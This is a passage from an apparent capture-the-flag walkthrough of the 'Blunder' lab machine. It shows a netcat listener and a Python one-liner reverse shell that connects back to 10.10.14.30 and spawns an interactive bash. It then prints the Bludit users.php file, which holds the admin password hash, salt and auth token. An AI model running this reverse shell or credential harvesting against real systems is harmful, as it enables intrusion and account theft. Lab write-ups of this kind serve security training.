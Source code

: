 ```bash
```

### Reverse Shell For Better TTY Using Python3
After receiving the shell, we will have a limited tty. Let's spawn a better tty. Let's another netcat listener.
<br />
```bash
nc -lvp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
```
<br />And at out current shell, we'll use the following python command:
<br />
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
<br />And here is what we should be receiving from our new netcat listener.
<br />
```bash
$ nc -lvp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:57214.
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$
```
<br />Now we have a better tty!

## Privesc Enumeration as www-data
Let's just snoop around in our web directory. After snooping around, we can actuall get 2 password hashes.

### Password hash in bludit-3.9.2/bl-content/databases
We can get that password hash from **```/var/www/bludit-3.9.2/bl-content/databases/users.php```**
<br />
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
```